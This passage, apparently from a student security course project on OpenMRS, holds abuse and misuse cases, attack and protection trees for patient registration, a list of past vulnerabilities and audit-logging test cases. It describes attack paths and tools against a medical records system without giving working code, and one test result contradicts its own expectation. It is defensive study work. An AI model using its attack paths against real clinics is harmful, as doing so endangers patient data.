2. Open a web browser. Make sure no user was logged in, and paste this following url in : http://localhost:8081/openmrs-standalone/ws/rest/v1/user/
3. This step is optional. Open a command line, make sure Curl was installed, paste and run this command: curl -X GET --header 'Accept: application/json' 'http://localhost:8081/openmrs-standalone/ws/rest/v1/user'
4. In either case, observe to see if there is a prompt for inputting username/password. If there is a prompt, please put in wrong username/password and observe the result.

### * Expected results
1. For test step 2, web browser should load an XML file. Around line 15, you will see "User is not logged in [Privileges required: Get Users]" and the rest of the file contains troubleshooting information regarding the api.
2. For test step 3, you should be able to see the similar message and/or a 401 message, saying "USer not logged in"

### * Post-condition
Webservice API is still up, available to serve further requests.

### * Actual results
1. Used the browser test method and received and XML with "User is not logged in [Privileges required: Get Users]"


### * NOTES:
* OpenMRS API documentation together with examples can be found at http://localhost:8081/openmrs-standalone/module/webservices/rest/apiDocs.htm (logged in as admin first)
You can expand the objects and click "try it out" to get sample codes.
* You can install the OpenMRS webservice API by downloading it from https://modules.openmrs.org/#/show/153/webservices-rest and then move the downloaded file to [download folder]\referenceapplication-standalone-2.6.0\appdata\modules
* Contact tam.nguyen@ncsu.edu if you have problems following instructions in this test case.
# CSC 515 Project - Milestone 2 #

***

## 3- ATTACK MODELING WITH ABUSE/MISUSE CASES, ATTACK TREES

## 3.0. Module Selection ##

Registration Module

<br>

## 3.1. Password Strength ##

Since some of the content contains Chinese, we translated the Chinese reminding message into English using the translator( which is also showed in the picture).

### Minimum length : 8


### Maximum length : none(5000 characters passed)


### Number of allowable characters: Required Upper and lower characters, at least on digit


### Allowable characters: all characters


### Password reuse policy: You can reuse the old password, no specific policy.


### Account lock out : Locked the 8th failed log in.

<br><br>

##  3.2. Abuse/Misuse Cases ##

### Diagram ###


### Abuse Case 1 ###

| Abuse Cases               | Content |
| :---						| :---    |
| Abuse Case ID 			| Registration-A1 |
| Abuse Case Name 			| Stored XSS Attack |
| Author					| Xiangqing Ding |
| Date						| 10/01/2017 |
| Actor						| (Malicious) Registration Clerk |
| Summary					| A registration clerk binds some malicious cross-site script when setting or editing patient's information. As a result, anyone who view the patient's page will suffer an XSS attack  |
| Basic Path				| BP0-1. The clerk logs into the openMRS system <br> BP0-2. The clerk goes to the patient registration page and registers a new patient <br> BP0-3. The clerk puts some XSS script in some information fields (like "address") of the new patient 	<br> BP0-4. After completing the registration form, the clerk clicks the confirmation button to finish registering the patient <br> BP0-5. Anyone that view the patient's information will be attacked |
| Alternative Paths			| AP0-1. The clerk logs into the openMRS system <br> AP0-2. (Change step BP0-2) The clerk goes to the search page and searches for an existing patient <br> AP0-3. (Change step BP0-3) The clerk edits the information of the existing patient and puts some XSS script in some information fields	<br> AP0-4. (Change step BP0-4) After completing the form, the clerk clicks the confirmation button to finish editing the patient information <br> AP0-5. Anyone that view the patient's information will be attacked | |
| Capture Points			| CP1: (For BP0-4) The script is not accepted. The clerk cannot create a user until the input is valid  <br> CP2: (For BP0-5) The script is accepted. But it cannot be executed for some mitigation techniques used in the system	|
| Extension Points			| N/A	|
| Preconditions				| 1. The system including registration module run well <br> 2. No other connection problems like network or database connection |
| Assumptions				| 1. The system is not guaranteed to be invulnerable to XSS attack (i.e. has corresponding mitigation or protection)  <br> 2. The process will not be interrupted by environment, like being found and stopped by other stuffs	|
| Worst case threat			| The malicious script is stored in the database and will be loaded when used. Anyone who visit the patient's page will suffer an XSS attack	|
| Capture Guaranteed		| The script is not accepted or doesn't work |
| Potential Misuse Profile 	| Skilled. The clerk should at least have some knowledge of web and XSS |
| Related Business Rules| BR1. System should adopt mitigation techniques to avoid being attacked <br> BR2. Access to private information should be restricted and logged |
| Stakeholder and Threats	| SH1: Employee: Employees who view the patient page will suffer XSS attack like session exposed <br> SH2: Hospital using this system: The reputation of the hospital will be damaged <br> SH3: Patient: With incorrect information, the patient may meet some problems like being unable to be contacted |
| Scope 					| Whole system |
| Abstraction level 		| Abuser goal  |
| Precision level 			| Focused |

 
### Abuse Case 2 ###

| Column                	| Content |
| :---						| :---    |
| Abuse Case ID 			| Registration-A2 |
| Abuse Case Name 			| Interpolating Patients' Information |
| Author					| Zhuo Li |
| Date						| 10/01/2017 |
| Actor						| (Malicious) Registration Clerk |
| Summary					| A registration clerk changes the information of patients for own purpose, without permission from other stuffs and notice to patients  |
| Basic Path				| BP0-1. The clerk logs into the openMRS system <br> BP0-2. The clerk searches the patient he/she wants to to interpolate, and then goes to the page of the patient <br> BP0-3. The clerk edits the information of the patient for own purpose <br> BP0-4. After completing the form, the clerk clicks the confirmation button to confirm the change <br> BP0-5. The patient information has been changed |
| Alternative Paths			| AP0-1. The clerk logs into the openMRS system <br> AP0-2. The clerk registers a new patient <br> AP0-3. (Change step BP0-3) The clerk interpolates the information of the patient for own purpose <br> AP0-4. After completing the registration form, the clerk clicks the confirmation button to confirm the registration <br> AP0-5. The interpolated patient information has been changed |
| Capture Points			| CP1: (For BP0-4) The clerk needs permission to change the information of patients	|
| Extension Points			| EP1: Include misuse case "Stored XSS Attack" (In BP0-3) |
| Preconditions				| 1. The system including registration module run well <br> 2. No other connection problems like network or database connection |
| Assumptions				| The process will not be interrupted by environment, like being found and stopped by other stuffs	|
| Worst case threat			| The information of patient has been successfully changed. No one discovers this problem.	|
| Capture Guaranteed		| The clerk cannot change information of patient without permission. The integrity of patient information is guaranteed |
| Potential Misuse Profile 	| Common. Knowing how to operate openMRS is enough |
| Related Business Rules	| BR1. Access to private information should be restricted and logged |
| Stakeholder and Threats	| SH1: Employee: Employees who use the wrong patient information may cause some problem and thus be punished <br> SH2: Hospital using this system: The reputation of the hospital will be damaged <br> SH3: Patient: With incorrect information, the patient may meet some problems like being unable to be contacted	|
| Scope 					| Whole system |
| Abstraction Level 		| Abuser goal  |
| Precision level 			| Focused 	   |


### Misuse Case 1 ###

| Column                	| Content |
| :---						| :---    |
| Misuse Case ID 			| Registration-M1 |
| Misuse Case Name 			| Registering Duplicate Patient |
| Author					| Fuxing Luan |
| Date						| 10/01/2017 |
| Actor						| (Careless) Registration Clerk |
| Summary					| A registration clerk unintentionally registers the patient twice or more times, causing a redundancy in system database and other problems |
| Basic Path				| BP0-1. The clerk logs into the openMRS system <br> BP0-2. The clerk goes into the registration page for registering new patient <br> BP0-3. For some reason, the clerk unintentionally creates the patient twice or more times  <br> BP0-4. Two or more information entries for the same patient are stored in the system database |
| Alternative Paths			| N/A |
| Capture Points			| CP1: (For BP0-4) The system will found out duplicate patient information and prevents the registration or sends check notice with the clerk <br> CP2: Anyone found the error and reported it to the administrator. The administrator manually deletes the duplicate information entry	|
| Extension Points			| N/A	|
| Preconditions				| 1. The system including registration module run well <br> 2. No other connection problems like network or database connection  |
| Assumptions				| The process will not be interrupted by environment, like being found and stopped by other stuff	|
| Worst case threat			| The real patient is hard to find in the system 	|
| Capture Guaranteed		| The clerk should double check the information that he inputs |
| Potential Misuse Profile 	| Common |
| Related Business Rules	| BR1. System should support functions of correcting operation error |
| Stakeholder and Threats	| SH1: Employee: Employees will be confused about the duplicate patient information. Both may need to be updated when patient information changing <br> SH2: Hospital using this system: The reputation of the hospital will be damaged |
| Scope 					| Whole system 	|
| Abstraction Level 		| Misuser goal  |
| Precision level 			| Focused 		|


### Misuse Case 2 ###

| Column                	| Content |
| :---						| :---    |
| Misuse Case ID 			| Registration-M2 |
| Misuse Case Name 			| Wrong Information Provided by Patient  |
| Author					| Tam Nguyen |
| Date						| 10/01/2017 |
| Actor						| (Forgetful) Patient |
| Summary					| A patient provides wrong information to the registration clerk during registration  |
| Basic Path				| BP0-1. The patient requests for being registered to the system <br> BP0-2. During the registration, the patient provides some wrong information, like wrong phone number, to the clerk <br> BP0-3.The patient is registered with wrong information |
| Alternative Paths			| N/A |
| Capture Points			| CP1: (For BP0-2) The clerk double checks the information provided by the patient and corrects the error <br> CP2: (For BP0-2)The patient recalls the correct information and gives clerk the right one <br> CP3: After registration, the patient recalls the correct information and asks clerks to correct it |
| Extension Points			| N/A	|
| Preconditions				| 1. The system including registration module run well <br> 2. No other connection problems like network or database connection  |
| Assumptions				| The process will not be interrupted by environment, like being found and stopped by other stuff	|
| Worst case threat			| The wrong patient information is created and used |
| Capture Guaranteed		| The wrong information is corrected during or after the registration, and not be used by anyone |
| Potential Misuse Profile 	| Common |
| Related Business Rules	| BR1. System should support functions of changing incorrect data <br> BR2. Employee should validate the data being recorded into the system  |
| Stakeholder and Threats	| SH1: Employees who use the wrong patient information may cause some problem and thus be punished <br> SH2: Hospital using this system: The hospital may suffer accident caused by wrong patient information <br> SH3: Patient: With incorrect information, the patient may meet some problems like being unable to be contacted	|
| Scope 					| Whole system |
| Abstraction Level 		| Misuser goal  |
| Precision level 			| Focused |


<br><br>

##  3.3. Attack Trees and Protection Trees ##


## Description
This attack tree analysis focuses on the  OpenMRS' "Register a patient" (/openmrs/registrationapp/registerPatient.page?appId=referenceapplication.registrationapp.registerPatient) and "Find Patient Record" (/openmrs/coreapps/findpatient/findPatient.page?app=coreapps.findPatient). The purpose of this documentation is to evaluate briefly the probability and cost of some common attack paths. The tree creation was done from top down and evaluation was done from bottom up.

## ASSUMPTIONS
* We assume OpenMRS used is a standalone version installed on a desktop. This fits the major user base that OpenMRS target - small scale clinic in underdeveloped areas.
* We assume there is just a small local network among local computers with no access to the Internet
* We assume the clinic members have overlapped roles such as a nurse may have to perform the tasks of a clerk sometimes.
* We assume the physical security of the place is less than American's standards (no ID activated doors, no armed guards)
* We assume the computer is used for more than just one purpose of hosting the local version of OpenMRS.
* We assume several staff members can use the computer per day
* We assume system support personel had enough training and capability to troubleshoot and remedy all issues relating to the system
* We assume system support personels are not onsite and we will use 20% rule as added time on top of time required to solve any case

## METRICS
### Probability calculation
Based on the above assumptions, we will use CVSS 3.0 calculator (https://www.first.org/cvss/calculator/3.0) to calculate the base probability. For example, if CVSS 3.0 score is 5, we will assume that the probability that the incident will happen is 50%. While CVSS score does not directly translate to threat probability in real life, for this project, we believe it is strong enough to be based on since it involves 11 groups of parameters (parameter groups in base score and temporal score)

### Cost calculation for attack tree
* We based our base cost on W.H.O recommended cost for health care center cost in Kenya (http://www.who.int/choice/country/ken/cost/en/). We will go with the least cost, per 20 minutes for LCU which is $139. For each type of threat, we will calculate the time needed for us ourselves to mitigate the threat. We then add 20% more time and use the final time value together with the above mentioned 20-min unit cost to calculate the final base cost. All money values in the tree are base costs 
* On top of the base costs, the actual money benefited from exploiting the patient records can be added. For example, if the attackers think they can "sell" the patient records to someone for $20000 then a reasonable amount of total cost for an exploit should be 50% of $20000 plus the base cost. Because it is extremely hard to predict how a particular group of attackers will benefit from their hacking works, we do not attempt to calculate the final cost. The idea is the attacker should not invest more on an exploit than the ROI (return of investment) from an exploit.

### Cost calculation for protection tree
* We based our cost on W.H.O recommended cost for health care center cost in Kenya (http://www.who.int/choice/country/ken/cost/en/). We will go with the least cost, per 20 minutes for LCU which is $139 (a quantified unit with consideratios of many factors such as salaries, electricity, fuel, etc). For each type of threat, we will calculate the time needed for us to mitigate the threat. We then add 20% more time and use the final time value together with the above mentioned 20-min unit cost to calculate the final cost. This cost will be served as the MAXIMUM cost of the solution implying that the cost to prevent an issue should not greater than the cost to fix the issue.
* All of the costs at tree nodes do not include other indirect costs.

### Impact calculate
We calculate impact based on these ranges

1-3 : Minor

4-6 : Moderate

7-9 : Significant

10 : Total impact

### Risk calculation
We calculate risks on leaf nodes based on this equation

risk = (probability/cost) * impact

### Propogation of metrics


### Attack tree leaf description

1. SQL Injection
   
   a. Descriptions : with no account, attackers perform SQL injection attacks on login page and was able to extract all patient records. From failed login logs, this type of attack can be quickly identified (identification time = 20 minutes). Attack string might be recorded in logs. Only work-around can be provided such as adding another layer of authentication provided by Apache TomCat for that specific page (40 minutes).
   
   b. Tools : SQLmap, SQLninja, SQLsus, Mole...
   
   c. Estimates
      * Probability : 60%
      * Cost: (60*1.2)/20 * 139 = $500
      
2. Java zero day
   
   a. Descriptions : with no account, attacker exploited Java server zero day vulnerability to create a backdoor. Exploit has to be performed on the computer that hosts OpenMRS. Because this may not directly create any OpenMRS log, it may take a while to be fully identified. The only work around is to reinstall java JRE and install host intrusion prevention system with ability to monitor changes to JRE files, and even JRE real time processes.
   
   b. Tools: strace, ltrace, ADA, other reverse engineer tools, other ROP tools, ...
   
   c. Estimates
      * Probability: 43%
      * Cost : (300*1.2)/20 * 139 = $2500
      
3. SQL zero day
   
   a. Descriptionswith no account, attacker exploited SQL server zero day vulnerability to create a backdoor. Exploit has to be performed on the computer that hosts OpenMRS. Because this may not directly create any OpenMRS log, it may take a while to be fully identified. The only work around is to reinstall SQL and install host intrusion prevention system with ability to monitor changes to SQL files, and even SQL real time processes.
   
   b. Tools: strace, ltrace, ADA, other reverse engineer tools, other ROP tools, ...
   
   c. Estimates
      * Probability: 40%
      * Cost : (300*1.2)/20 * 139 = $2500
      
4. Session hijacking
   
   a. Descriptions: attacker from the clinic's local network hijacked an admin session by sniffing and replaying some network traffics. Inspecting network traffics (1 hour) will help identify the attacker and setting up HTTPs for the site (40 minutes) will help prevent the vulnerability.
   
   b. Tools: cookieCatcher, FireSheep, Juggernaut,...
   
   c. Estimates
      * Probability: 76%
      * Cost: ( 100 *1.2)/20 *139 = $834
      
5. Man in the browser
   
   a. Descriptions: attacker installed a mallicious browser plugin that secretly recorded all data sent between the server and the browser under admin sesssions. Recorded data got stored on local HDD or a local network drive. Mallicious plugin can be identified upon inspection (1 hour)
   
   b. Tools : mallicious extensions, API-hooking,...
   
   c. Estimates
      * Probability: 45%
      * Cost: ( 60*1.2)/20 *139 = $500
      
6. Cross-site request forgery
   
   a. Descriptions: attacker crafted a mallicious website that will query the database for full patient list under logged on OpenMRS admin session. Since we assume the Desktop is rarely connected to the internet and uses are strictly for the local clinic, the probability for this kind of attack is low. Network firewall log inspection will reveal the mallicious http requests and can be permanently fixed by whitelisting rules at gateway.
   
   b. Tools: OWASP scanner, BurpSuite, any html editor
   
   c. Estimates
      * Probability: 35%
      * Cost ( 60*1.2)/20 *139 = $500
      
7. Broken authentication
   
   a. Descriptions: a mallicious indider was able to predict the session ID generation rules and adjusted his/her regular session (with no read patient privilege) to a session with higher privilege. Inspecting login sessions and network logs may reveal inconsistencies in sessions. 
   
   b. Tools: any http header sniff and analyzer, built-in browser developer tool, some cryptography cracking tools, ...
   
   c. Estimates
      * Probability: 44%
      * Cost ( 120*1.2)/20 *139 = $1000
      
8. SQL injection
   
   a. Descriptions: a mallicious indider with no patient record read privilege was able to perform SQL injection on other forms and gained access to full list of patients. Inspecting network logs may reveal suspicious http requests.
   
   b. Tools : SQLmap, SQLninja, SQLsus, Mole...
   
   c. Estimates
      * Probability : 70%
      * Cost: (60*1.2)/20 * 139 = $500
      
9. Underprotected API
   
   a. Descriptions: a mallicious insider with no patient record read privilege was able to exploit bugs in API (either native or third party) and made the API to display full list of patients. Inspecting network logs may reveal suspicious http requests.
   
   b. Tools: any http header sniff and analyzer, built-in browser developer tool, portable fuzzer tools ...
   
   c. Estimates
      * Probability: 50%
      * Cost ( 60*1.2)/20 *139 = $500
      
10. Key logger
   
    a. Descriptions: attacker was able to install a keylogger on the local machine and record all key strokes including new patient data input and login credentials of all users using the workstation. Inspecting running processes and performing comprehensive scan may help identify and resolving the problem (2 hours)
   
    b. Tools: keylogger hardwares, keylogger software
   
    c. Estimates
      * Probability: 90%
      * Cost (120 *1.2)/20 *139 = $1000
      
11. Send content to printer
   
    a. Descriptions: attacker was able to install a script that will secretly send the content of a target page (patient list page) to a local network printer whenever a legitimate user browses to those certain pages. Over the time, attacker will have a decent list of all patients in the system. Inspecting print spooler requests will revleal the exploit.
   
    b. Tools: vbscript, shell script, batch script
   
    c. Estimates
      * Probability: 55%
      * Cost ( 60*1.2)/20 *139 = $500
      
12. Mirroring HDD
   
    a. Descriptions: attacker was able to use built in Raid mirroring functionality supported by the workstation and secretly installed additional HDDs, able to get the mirror of all main HDDs data and secretly harvest the mallicious HDD at a later time. Inspecting raid settings, physical inspection of hardware, physical security will help identify and mitigate the problem.
   
    b. Tools: existing hardware raid supports, existing software raid support
   
    c. Estimates
      * Probability: 45%
      * Cost (60*1.2)/20 *139 = $500
      
13. Memory dump
   
    a. Descriptions: attacker was able to secretly dump contents in memory into local disk or a local network location. Over the time, attacker can get login credentials, and browser contents including patient records. Process analysis, system call monitoring, antivirus scan may help identify and mitigate the problem.
   
    b. Tools: Live RAM Caputer, WindowsScope, Memoryze, trojans,...
   
    c. Estimates
      * Probability: 42%
      * Cost ( 100*1.2)/20 *139 = $834
      
14. Buffer overflow
   
    a. Descriptions: attacker caused a buffer overflow to execute payloads that affect OpenMRS, JDK, MySQL, browser, or flash and other plugins, leading to total exposure of patient info. System may or may not record the buffer overflow. Checking application log may reveal attempts.
   
    b. Tools: binary reverse engineering tools, payload preparation platforms, ROP tools, ...
   
    c. Estimates
      * Probability: 49%
      * Cost ( 400 *1.2)/20 *139 = $3336
      
15. Rootkit
   
    a. Descriptions: Attacker was able to install RootKit on the workstation that host the OpenMRS server and has total control. Identify and re-imaging the workstation will cost 3 hours at minimum.
   
    b. Tools: DerStarke, QuarkMatter, ...
   
    c. Estimates
      * Probability: 66%
      * Cost ( 180*1.2)/20 *139 = $1501
      
16. Cache attack
   
    a. Descriptions: Attacker was able to grab cached files produce by the system, or by OpenMRS and extract patient information from it. Under-protected SQL backups are also succeptible to this kind of attack.
   
    b. Tools: thumb drive to copy files, cryptanalysis tool, text extract tool, etc.
   
    c. Estimates
      * Probability: 37%
      * Cost ( 60*1.2)/20 *139 = $500
      
17. Spyware/Trojan
   
    a. Descriptions: attacker was able to plant a trojan or spyware on the computer and able to harvest all information, regarding login credentials
   
    b. Tools: Frog Prince, Grasshopper, CandyMountain, Assasin, ...
   
    c. Estimates
      * Probability: 61%
      * Cost ( 120*1.2)/20 *139 = $1000
      
18. Whaling
   
    a. Descriptions: attacker target key personel with high privilege and persuaded such people to execute a mallicious payload leading to attacker's total access to patient info.
   
    b. Tools: email with payload, social engineering over the phone, ...
   
    c. Estimates
      * Probability: 85%
      * Cost ( 60*1.2)/20 *139 = $500
      
19. Shoulder surfing
   
    a. Descriptions: attacker look over the shoulder or found a way to record an admin typing a password. This is a huge possibility considering the clinic is small, with low level of physical security.
   
    b. Tools: human eyes, secret cameras
   
    c. Estimates
      * Probability: 90%
      * Cost ( 180*1.2)/20 *139 = $1501
      
20. Impersonation
   
    a. Descriptions: attacker calls in or physically present and pretend to be soneone important and demand full list of patient.
   
    b. Tools: phone, physical appearance, social engineering
   
    c. Estimates
      * Probability: 65%
      * Cost ( 180*1.2)/20 *139 = $1501
      
 ### The attack tree
      


### Protection tree leaf descriptions

1. Proper loggin
   
   a. Descriptions : make sure all log functions from Apache TomCat, SQL, and OpenMRS itself are enabled. Test and make sure all less-than-desirable events are logged. Make sure events are generated correctly - for example, if it should be a 404 error, it should be a 404 error rather than a 200.
   
   b. Tools : all standard log monitor/generator tools
   
   c. Estimates
      * Probability : 65%
      * Cost: (60*1.2)/20 * 139 = $500
      
2. Avoid JAVA zero day attacks
   
   a. Descriptions : Follow and monitor threat networks like Cisco TALOS, the NVD for newly discovered Java vulnerabilities. Update JDK as soon as possible. Host based IPS with anomaly capability installed on OpenMRS host computer may also help
   
   b. Tools: HIPS with anomaly detection capabilities, threat intelligence networks ...
   
   c. Estimates
      * Probability: 75%
      * Cost : (300*1.2)/20 * 139 = $2500
      
3. Avoid mySQL zero day attacks
   
   a. Descriptions: Follow and monitor threat networks like Cisco TALOS, the NVD for newly discovered Java vulnerabilities. Update mySQL as soon as possible. Host based IPS with anomaly capability installed on OpenMRS host computer may also help
   
   b. Tools: HIPS with anomaly detection capabilities, threat intelligence networks ...
   
   c. Estimates
      * Probability: 75%
      * Cost : (300*1.2)/20 * 139 = $2500
      
4. Strict session control
   
   a. Descriptions: make sure the randomizer is good random, use a short window for sessions, only transmit session cookies over encrypted chanel.
   
   b. Estimates
      * Probability: 85%
      * Cost: ( 100 *1.2)/20 *139 = $834
      
5. Prevent Man in the browser
   
   a. Descriptions: user a network based IPS, host based IPS, application firewall
   
   b. Tools : HIPS, network IPS, antivirus
   
   c. Estimates
      * Probability: 75%
      * Cost: ( 60*1.2)/20 *139 = $500 (not counting the cost of hardwares)
      
6. Cross-site request forgery
   
   a. Descriptions:  using firewalls to whitelist websites - only a very few, work related websites will be allowed. This will help protect against CSRF.
   
   b. Tools: HIPS, network IPS, Firewalls
   
   c. Estimates
      * Probability: 35%
      * Cost ( 60*1.2)/20 *139 = $500
      
7. Folow NIST recommendations for authentications
   
   a. Descriptions: Following NIST's recommendations to implement correctly authentication schemes and prevent situations like a mallicious indider was able to predict the session ID generation rules and adjusted his/her regular session (with no read patient privilege) to a session with higher privilege.
   
   b. Tools: NIST recommendations, existing time-tested solutions ...
   
   c. Estimates
      * Probability: 44%
      * Cost ( 120*1.2)/20 *139 = $1000
      
8. Input sanitization
   
   a. Descriptions: Sanitize inputs and put restrictions on inputs. This will prevent situations like a mallicious indider with no patient record read privilege was able to perform SQL injection on other forms and gained access to full list of patients.
   
   b. Tools : existing time-tested input validation solutions...
   
   c. Estimates
      * Probability : 70%
      * Cost: (60*1.2)/20 * 139 = $500
      
9. Fuzz test the APIs
   
   a. Descriptions: Use an fuzzer like OWASP fuzz or test cases to fuzz the APIs to make sure there is no detectable vulnerability. This will prevent situations like a mallicious insider with no patient record read privilege was able to exploit bugs in API (either native or third party) and made the API to display full list of patients.
   
   b. Tools: any http header sniff and analyzer, built-in browser developer tool, portable fuzzer tools ...
   
   c. Estimates
      * Probability: 70%
      * Cost ( 60*1.2)/20 *139 = $500
      
10. Physical inspection of hardware
   
    a. Descriptions: Physically inspect hardwares and look for un-authorized devices such as unauthorized keyboards, unauthorized USB. This will prevent situations like an attacker was able to install a keylogger on the local machine and record all key strokes including new patient data input and login credentials of all users using the workstation.
   
    b. Tools: keylogger hardwares, keylogger software
   
    c. Estimates
      * Probability: 60%
      * Cost (120 *1.2)/20 *139 = $1000
      
11. Print-job authentication
   
    a. Descriptions: Requires re-authentication for all print jobs, making sure that it was the right person with the right reason to print the data out. This will prevent situations like an attacker was able to install a script that will secretly send the content of a loaded page (patient list page) to a local network printer whenever a legitimate user browses to the page.
   
    b. Tools: third-party softwares that control print spooler
   
    c. Estimates
      * Probability: 85%
      * Cost ( 60*1.2)/20 *139 = $500
      
12. Whole disk encryption
   
    a. Descriptions: Encrypt the whole disk system. This will prevent situations like an attacker was able to use built in Raid mirroring functionality supported by the workstation and secretly installed additional HDDs, able to get the mirror of all main HDDs data and secretly harvest the mallicious HDD at a later time.
   
    b. Tools: BitLocker or similar solutions
   
    c. Estimates
      * Probability: 95%
      * Cost (60*1.2)/20 *139 = $500
      
13. Force safe reboot after crash
   
    a. Descriptions: Force safe reboot after a system crash and require the attention of admin. This will prevent situations like an attacker was able to dump contents in memory into local disk and collect it for later analysis.
   
    b. Tools: Safemode in windows, group policy settings,...
   
    c. Estimates
      * Probability: 82%
      * Cost ( 100*1.2)/20 *139 = $834
      
14. Sandboxing
   
    a. Descriptions: Run the whole OpenMRS in a container with just enough resources for the software to run efficiently. This will prevent situations like an attacker caused a buffer overflow to execute payloads that affect OpenMRS, JDK, MySQL, browser, or flash and other plugins, leading to total exposure of patient info.
   
    b. Tools: Docker, Hadoop, CloudFoundry ...
   
    c. Estimates
      * Probability: 89%
      * Cost ( 400 *1.2)/20 *139 = $3336
      
15. Safeboot with BIOS check
   
    a. Descriptions: Use BIOS UEFI to check the MBR before booting. This will prevent situations like an attacker was able to install RootKit on the workstation that host the OpenMRS server and has total control.
   
    b. Tools: bios UEFI ...
   
    c. Estimates
      * Probability: 86%
      * Cost ( 180*1.2)/20 *139 = $1501
      
16. Access Control List with strict policies
   
    a. Descriptions: Use ACLs and policies to only allow the right people access to the right resources. This will prevent situations like an attacker was able to grab cached files produce by the system and extract patient information from it.
   
    b. Tools: Active Directory group policy and permissions, etc.
   
    c. Estimates
      * Probability: 97%
      * Cost ( 60*1.2)/20 *139 = $500
      
17. Host-based Intrusion Prevention System
   
    a. Descriptions: Use a HIPS to prevent situations like an attacker was able to plant a trojan or spyware on the computer and able to harvest all information, regarding login credentials
   
    b. Tools: McAffee, Norton, ...
   
    c. Estimates
      * Probability: 80%
      * Cost ( 120*1.2)/20 *139 = $1000
      
18. Enforce email signatures
   
    a. Descriptions: Making sure all work related emails are signed and encourage people to only open files from the people they trust and from signed emails. This will prevent situations like an attacker targeted key personel with high privilege and persuaded such people to execute a mallicious payload leading to attacker's total access to patient info.
   
    b. Tools: email signatures with public keys...
   
    c. Estimates
      * Probability: 85%
      * Cost ( 60*1.2)/20 *139 = $500
      
19. Improve physical security
   
    a. Descriptions: Improving physical security by placing security filter screen over monitor screen, secure placement of work stations, and mindful security guards. This will prevent situations like an attacker looked over the shoulder or found a way to record an admin typing a password.
   
    b. Estimates
      * Probability: 90%
      * Cost ( 180*1.2)/20 *139 = $1501
      
20. Cyber Awareness Training
   
    a. Descriptions: Conduct cyber awareness training and prevent situations like an attacker calls in or is physically present and pretend to be soneone important and demands full list of patients.
   
    b. Tools: online training, actual training
   
    c. Estimates
      * Probability: 65%
      * Cost ( 180*1.2)/20 *139 = $1501
      
 ### The protection tree
 
 
<br><br>

##  3.4. Vulnerability History ##

### Description
OpenMrs used to have XSS, CSRF and XXE Injection.

* (XSS and CSRF)Parameters that are displayed back to the user are mostly vulnerable to cross-site scripting as user input was not validate properly and as a result, the malicious script was stored by the application and executed when it was displayed back to the user.
* (XEE Injection)The vulnerability is caused due to an error when parsing XML entities within ZIP archives and can be exploited to e.g. disclose data from local resources or cause a DoS condition (billion laughs) via a specially crafted XML file including external entity references.
* (XSS)OpenMRS suffers from multiple stored and reflected cross-site scripting vulnerabilities when input passed via several parameters to several scripts is not properly sanitized before being returned to the user. This can be exploited to execute arbitrary HTML and script code in a user's browser session in context of an affected site.

### URL and evidence  
URL:
* https://www.cvedetails.com/vulnerability-list/vendor_id-14221/product_id-29315/Openmrs-Openmrs.html


* https://packetstormsecurity.com/files/128748/OpenMRS-2.1-Access-Bypass-XSS-CSRF.html


* https://packetstormsecurity.com/files/134700/OpenMRS-2.3-1.11.4-XXE-Injection.html


* https://packetstormsecurity.com/files/134698/OpenMRS-2.3-1.11.4-Cross-Site-Scripting.html


It’s found by the provided URL. We first search by google if there is any vulnerability history with openMRS vulnerability and found there are some( the first curl). Then we use packet storm to find the details.

## Are these commonly-occurring vulnerabilities?
Yes, these are commonly-occurring vulnerabilities. Because most of the application should have a log in and registration process. Mostly, the application focused on the log in part and ignore other important part such as registration.
Also, most application contain XML entities, most of them only check the grammar or syntax of the XML, they failed to check if this is a crafted XML including external entity references which can be used by hacker.

## How do you think OpenMRS had to fix the vulnerability?
The application should not only focus on the log in part but also everywhere of the system. There should be filter and checking part before and after every options to hide useless data and protect changed data. Moreover, before starting the whole system, there also should be some checking part to see if every file is safe and authenticated.

***

## 4- AUDITING #

## Test case: U-1

### Name of module : [ Update ]

### Test Description
When someone adds a patient’s information, the username, IP address, and time should be logged.

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
3. OpenMRS with demo database runs normally

### * Test Data
1. Username: `Admin`
2. Password: `Admin123`

### * Test steps
1. Start local openMRS and log in with the username and account
2.	Click “Register a patient” in the main page
3.	Input Kobe in Given field and Bryant in Family Name field
4.	Choose Male as gender
5.	Let the birthday be 8/23/1978
6.	Address as Staples Center, Los Angeles, CA, Los Angeles, 90001
7.	Phone 555-555-5555
8.	No relatives

### * Expected logged info
1. username
2. time
3. ip address
4. computer id

### * Actual results
INFO - LoggingAdvice.invoke(115) |2017-10-24 14:17:28,252| In method PatientService.savePatient. Arguments: Patient=Patient#null, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 14:17:28,279| Exiting method savePatient
INFO - LoggingAdvice.invoke(115) |2017-10-24 14:17:28,738| In method UserService.saveUser. Arguments: User=admin, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 14:17:28,745| Exiting method saveUser

### Test status : [ fail ]

No IP address or computer ID is tracked. 
It is inadequate because you cannot tell whether it was operated by the person.


## Test case: U-2


### Name of module : [ Update ]

### Test Description
When someone registers a new patient, his password and session id should not be logged.

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
3. OpenMRS with demo database runs normally

### * Test Data
1. Username: `Admin`
2. Password: `Admin123`

### * Test steps
1. Start local openMRS and log in with the username and account
2.	Click “Register a patient” in the main page
3.	Input Kobe in Given field and Bryant in Family Name field
4.	Choose Male as gender
5.	Let the birthday be 8/23/1978
6.	Address as Staples Center, Los Angeles, CA, Los Angeles, 90001
7.	Phone 555-555-5555
8.	No relatives

### * Expected logged info
1. Not include user password or session id

### * Actual results
INFO - LoggingAdvice.invoke(115) |2017-10-24 14:17:28,252| In method PatientService.savePatient. Arguments: Patient=Patient#null, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 14:17:28,279| Exiting method savePatient
INFO - LoggingAdvice.invoke(115) |2017-10-24 14:17:28,738| In method UserService.saveUser. Arguments: User=admin, 
INFO - LoggingAdvice.invoke(155) |2017-10-24 14:17:28,745| Exiting method saveUser

### Test status : [ fail ]

The password and session id is not be logged 


## Test case: U-3

### Name of module : [ Update ]

### Test Description
When someone update a patient’s information, the username, IP address, and time should be logged.

### * Precondition
1. A local computer with administrator privilege
2. Java environment installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unzipped
4. Latest Chrome browser

### * Assumption
3. OpenMRS with demo database runs normally

### * Test Data
1. Username: `Admin`
2. Password: `Admin123`

### * Test steps
